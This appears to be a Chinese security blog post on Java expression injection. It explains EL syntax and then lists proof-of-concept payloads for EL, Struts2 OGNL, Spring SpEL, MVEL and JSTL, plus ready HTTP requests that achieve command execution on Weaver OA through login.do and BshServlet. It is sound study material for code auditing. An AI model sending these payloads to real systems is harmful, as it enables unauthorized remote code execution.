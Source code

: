 ```yaml
---
title: "Java 表达式注入"
date: 2020-05-08T11:40:36+08:00
draft: false
tags:
- java
- EL表达式
series:
-
categories:
- 代码审计
---
```


jsp常用
<!--more-->

## 简介
Java中表达式根据框架分为好多种，其中EL表达式是jsp的内置语音，是为了让jsp写起来更简单而出现的，其设计思想来源自`ECMAScript`和`XPath`。使用EL表达式我们可以在jsp页面中执行运算、获取数据、调用方法、获取对象等操作。其基本语法为`${变量表达式}`。

## 基本语法
大部分的语法都和jsp差不多，说下不太一样的。

### 获取变量

```java
<%@ page import="java.util.HashMap" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String name = "张三";
    request.setAttribute("name",name);

    request.setAttribute("request", "request_name");
    session.setAttribute("session", "session_name");
    pageContext.setAttribute("page", "page_name");
    application.setAttribute("application", "application_name");
    HashMap<String, String> map = new HashMap<>();
    map.put("my-name", "admin");
    request.setAttribute("test", map);
%>
从四个作用域中搜索变量：${name}
</br>
<%--获取作用域--%>
从requestScope作用域中获取变量：${requestScope.request}
</br>
从sessionScope作用域中获取变量：${sessionScope.session}
</br>
从pageScope作用域中获取变量：${pageScope.page}
</br>
从applicationScope作用域中获取变量：${applicationScope.application}
</br>
从作用域中获取特殊符号变量：${requestScope.test["my-name"]}
```
### 操作符

|  类型  | 符号                                                         |
| :----: | ------------------------------------------------------------ |
| 算术型 | +、-（二元）、`*`、/、div、%、mod、-（一元）     |
| 逻辑型 | and、&&、or、双管道符、!、not                                |
| 关系型 | ==、eq、!=、ne、<、lt、>、gt、<=、le、>=、ge。可以与其他值进行比较，或与布尔型、字符串型、整型或浮点型文字进行比较。 |
|   空   | empty 空操作符是前缀操作，可用于确定值是否为空。             |
| 条件型 | A ?B :C。根据 A 赋值的结果来赋值 B 或 C。                    |

### 隐式对象
1. pageContext
2. param paramValues
3. header headerValues
4. cookie
5. initParam
6. Scope系列

### 函数

```java
${ns:func(param1, param2, ...)}
```
用el表达式调用函数必须使用`taglib`引入你的标签库

### 调用Java方法

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@taglib prefix="elFunc" uri="http://www.test.com/elFunc" %>
<%
    String name = "张三";
    request.setAttribute("name",name);
%>
调用函数：${elFunc:elFunc(name)}
```
页面输出 `调用函数：hello 张三`

### 禁用/启用EL表达式
全局禁用EL表达式，web.xml中进入如下配置：

```xml
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```
单个文件禁用EL表达式
在JSP文件中可以有如下定义：

```java
<%@ page isELIgnored="true" %>
```
该语句表示是否禁用EL表达式，TRUE表示禁止，FALSE表示不禁止。

JSP2.0中默认的启用EL表达式。


## 表达式注入漏洞实例
原理都是一样的：表达式全部或部份外部可控。先列一些通用的poc，然后按照不同框架简单划分下。

### 通用POC

```java
${pageContext}
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
${header}
${applicationScope}
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

### Struts2 OGNL
```txt
@[类全名（包括包路径）]@[方法名 |  值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```

实例代码

```java
ActionContext AC = ActionContext.getContext();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

### Spring SPEL

```java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

### JSP JSTL_EL

```java
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

### Elasticsearch MVEL

```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
Boolean result = (Boolean) MVEL.eval(expression, vars);
```

### 泛微OA EL表达式注入

```java
login.do?message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```
或者POST

```java
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

还有一种

```http
POST /weaver/bsh.servlet.BshServlet
bsh.script=eval%00("ex"%2b"ec(\\"cmd+/c+calc\\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

## 绕过
1. 反射
2. unicode
3. 八进制

## 参考
1. [泛微e-mobile ognl注入](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/%E6%B3%9B%E5%BE%AEe-mobile%20ognl%E6%B3%A8%E5%85%A5.md)
2. https://xz.aliyun.com/t/7692
3. https://www.jianshu.com/p/14e9af313e93
4. [表达式注入](https://misakikata.github.io/2018/09/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**